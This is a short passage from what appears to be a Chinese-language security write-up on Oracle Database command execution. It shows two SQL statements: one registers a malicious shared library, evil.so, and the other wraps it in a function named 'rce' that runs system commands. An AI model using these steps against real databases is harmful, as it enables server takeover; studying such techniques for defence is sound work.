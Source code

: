 接下来创建 lib 即可

```plain
create or replace library lib_evils as '/opt/oracle/product/23c/dbhomeFree/evil.so';
```

[![](assets/1710899076-55b66780d3c05147101352579c87eeb9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101442-2253dadc-d5df-1.png)

然后创建 rce 的 function

```plain
create or replace function rce(str varchar2) return varchar2 as language c library lib_evils name "cmd";
```
